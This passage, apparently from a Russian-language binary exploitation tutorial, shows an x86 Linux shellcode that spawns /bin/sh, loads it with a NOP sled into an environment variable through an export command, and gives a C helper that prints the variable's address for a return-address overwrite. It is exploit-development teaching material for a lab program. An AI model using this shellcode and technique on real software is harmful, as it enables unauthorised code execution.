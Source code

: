 Пример работы ниже, с нашим шеллкодом, ниже

![](/assets/images/ru/shellcode1/test_shell_demo.gif)

Так мы убедились, что шеллкод работает правильно.

Давайте теперь применим шеллкод в деле. Если помните, в первой части, мы перенаправляли выполнение на функцию win(). Теперь же, мы проэксплуатируем программу так, чтобы получить доступ к шеллу. Для этого, нам надо каким-то образом расположить шеллкод в памяти. Классическим способом является расположение шеллкода в буфере, который мы передаем в программу и перезапись ret адреса на адрес в буфере. Мы попробуем немного другой способ, будем хранить наш шеллкод в переменной окружения!

*_кстати говоря, не всегда получается передать шеллкод в самом буфере, так как данные на фходе могут фильтроваться или детектироваться разными средставми_

Кладем наш шеллкод в переменную окружения.

```
export TEST_SHELLCODE=`printf "\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\xb7\x68\xb3\x73\xc1\xc3\x08\xb3\x2f\x53\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"`
```

Если вы заметили, то в начало мы поместили несколько значений 0x90. Это опкод инструкции nop. Данная инструкция ничего не делает. Мы добавили ее, чтобы не совсем точно указывать место перехода. Если мы неправильно укажем адрес перехода, мы можем начать выполнять шеллкод с середины или с другого любого места, но не с начала. Но если мы попадем на nop, то ничего страшного не произойдет, выполнение просто пойдет дальше, пока не дойдет до нашего кода. Данный массив инструкций называется nop sled.

Напишем программу, которая получает адресс переменной окружения TEST_SHELLCODE

```
#include <stdlib.h>
main(int argc, char** argv) {
	void* env = getenv(argv[1]);
	printf("address of env = 0x%x\n", env);
}
```
